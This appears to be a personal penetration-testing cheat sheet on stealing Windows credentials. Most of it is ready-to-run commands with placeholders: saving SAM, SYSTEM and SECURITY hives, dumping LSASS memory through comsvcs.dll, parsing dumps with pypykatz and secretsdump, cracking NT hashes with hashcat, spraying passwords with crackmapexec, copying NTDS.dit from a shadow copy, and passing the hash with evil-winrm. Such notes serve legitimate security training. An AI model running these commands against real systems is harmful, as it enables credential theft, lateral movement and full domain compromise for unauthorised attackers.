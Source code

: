 ## Attacking SAM 

Registry Hives if you have local admin access on the target.

|Registry Hive|Description|
|---|---|
|`hklm\sam`|Contains the hashes associated with local account passwords. We will need the hashes so we can crack them and get the user account passwords in cleartext.|
|`hklm\system`|Contains the system bootkey, which is used to encrypt the SAM database. We will need the bootkey to decrypt the SAM database.|
|`hklm\security`|Contains cached credentials for domain accounts. We may benefit from having this on a domain-joined Windows target.|

#### Locally

```cmd
C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save

C:\WINDOWS\system32> reg.exe save hklm\system C:\system.save

C:\WINDOWS\system32> reg.exe save hklm\security C:\security.save
```
#### Remotely

```shell
crackmapexec smb <ip> --local-auth -u <user> -p <pass> --lsa
```

```shell
crackmapexec smb <ip> --local-auth -u <user> -p <password> --sam
```
#### Cracking SAM
```shell
impacket-secretsdump -sam <sam file> -security <security file> -system <system file> LOCAL
```

```shell
sudo hashcat -m 1000 <NT Hashes> /usr/share/wordlists/rockyou.txt
```

## Attacking LSASS
![[WinLogon.png]]
Upon intial logon LSASS:
- Cache credentials locally in memory
- Create [access tokens](https://docs.microsoft.com/en-us/windows/win32/secauthz/access-tokens)
- Enforce security policies
- Write to Windows [security log](https://docs.microsoft.com/en-us/windows/win32/eventlog/event-logging-security)

#### Dump LSASS 
##### Task manager
![[LSASS DMP.png]]

Outputs to 
```cmd
C:\Users\loggedonusersdirectory\AppData\Local\Temp\lsass.DMP
```

##### CMD
Get LSASS PID
```cmd
tasklist /svc
```
```powershell
 Get-Process lsass
```
Create LSASS.dmp
```powershell
rundll32 C:\windows\system32\comsvcs.dll, MiniDump <pid> C:\lsass.dmp full
```
#### Extract LSASS Credentials 
 
##### Pypykatz
```shell
pypykatz lsa minidump lsass.dmp
```
###### [MSV](https://learn.microsoft.com/en-us/windows/win32/secauthn/msv1-0-authentication-package)

Authentication package in windows that LSA validates logon attempts against the SAM database, 
###### WDIGEST

Older authentication methods protocol enabled by default Win XP - Win 8  and Server 2003 - 2012
LSASS caches credentials in clear text used by WDIGEST

###### [Kerberos](https://web.mit.edu/kerberos/#what_is)

Network authentication protocol used by AD in Windows domain environments.
LSASS caches passwords, ekeys, tickets and pins. 

###### [DPAPI](https://learn.microsoft.com/en-us/dotnet/standard/security/how-to-use-data-protection)

Data Protection Application Programming Interface,
Used to encrypt and decrypt data blobs on a per-user basis for Windows OS features.

|Applications|Use of DPAPI|
|---|---|
|`Internet Explorer`|Password form auto-completion data (username and password for saved sites).|
|`Google Chrome`|Password form auto-completion data (username and password for saved sites).|
|`Outlook`|Passwords for email accounts.|
|`Remote Desktop Connection`|Saved credentials for connections to remote machines.|
|`Credential Manager`|Saved credentials for accessing shared resources, joining Wireless networks, VPNs and more.|

Mimikatz and Pypykatz can extract the DPAPI master key for the logged on users.

## Attacking Active Directory & NTDS.dit

Need initial foothold on the network 

Once a Windows system is joined to a domain, it will no longer default to referencing the SAM database to validate logon requests.

[Attack technique](https://attack.mitre.org/techniques/T1003/003/)
#### Dictionary Attacks 

Very noisy 

|Username Convention|Practical Example for Jane Jill Doe|
|---|---|
|`firstinitiallastname`|jdoe|
|`firstinitialmiddleinitiallastname`|jjdoe|
|`firstnamelastname`|janedoe|
|`firstname.lastname`|jane.doe|
|`lastname.firstname`|doe.jane|
|`nickname`|doedoehacksstuff|
Using Emails:
	We can often find the email structure by Googling the domain name, i.e., “@inlanefreight.com” and get some valid emails. From there, we can use a script to scrape various social media sites and mashup potential valid usernames. Some organizations try to obfuscate their usernames to prevent spraying, so they may alias their username like a907 (or something similar) back to joe.smith. That way, email messages can get through, but the actual internal username isn’t disclosed, making password spraying harder. Sometimes you can use google dorks to search for “inlanefreight.com filetype:pdf” and find some valid usernames in the PDF properties if they were generated using a graphics editor. From there, you may be able to discern the username structure and potentially write a small script to create many possible combinations and then spray to see if any come back valid.

Create usernames with [Username anarchy](https://github.com/urbanadventurer/username-anarchy)
#### Target the Domain Controller
Attempt to establish username and password
```shell
crackmapexec smb <ip> -u <username> -p <password list>
```
#### Locally 
##### Connect to the DC and Captre NTDS.dit
```shell
evil-winrm -i <ip>  -u <username> -p '<password>'
```

##### Check Local priviliges 
```shell
PS C:\> net localgroup
```

```shell
net user <user>
```

Need local admin or Domain admin
##### Create a shadow copy of C Drive
```shell
PS C:\> vssadmin CREATE SHADOW /For=C:
```
##### Copy NTDS.dit from VSS 
```shell
cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
```

#### Remotely
```shell
crackmapexec smb <ip> -u <user> -p <password> --ntds
```
#### Pass the hash
```shell
evil-winrm -i <ip> -u <user> -H "<hash>"
```
